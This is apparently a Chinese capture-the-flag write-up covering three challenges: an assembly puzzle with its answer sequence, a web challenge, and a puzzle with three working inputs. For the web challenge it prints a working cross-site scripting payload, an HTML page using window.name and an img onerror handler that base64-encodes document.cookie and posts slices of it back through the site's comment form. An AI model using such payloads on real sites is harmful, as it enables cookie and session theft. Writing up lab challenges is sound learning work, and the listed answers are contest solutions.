 ## 异星歧途

这题其实并没什么好说的

进入游戏查看处理器阅读汇编即可

最终序列 `10100101110001001000110001110111`

## 微积分计算小练习 2.0

在留言页面发现，留言是直接拼接字符串得来的

所以构造`"+window["name"]+"` 

反复执行脚本

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
<img src="x" onerror="openPage()" alt="error">
<script>
    function openPage() {
        var str = `<img src="x" onerror='fetch("/result", {method:"POST",headers:{
    "Content-Type": "application/x-www-form-urlencoded"
    },body:"comment="+btoa(document.cookie).slice(72,96)});'>`;
        window.open('http://web/result', str);
        return 0;
    }
</script>
</body>
</html>
```

分段拆解btoa后的cookie输出

获取到base64后的cookie

然后UrlDecode解码

## 小 Z 的谜题

只写了第一问

```
010301013502013524020313020335023545123414150401154504240235240313242435243413254545450413450435

010301013502013524020313020335023545123414134504150401240235240313242435243413254545354504450415

010301013502013524020313020335023545123414150401154504240235240313242435243413254545450215452415
```

但是这三个输入均有效

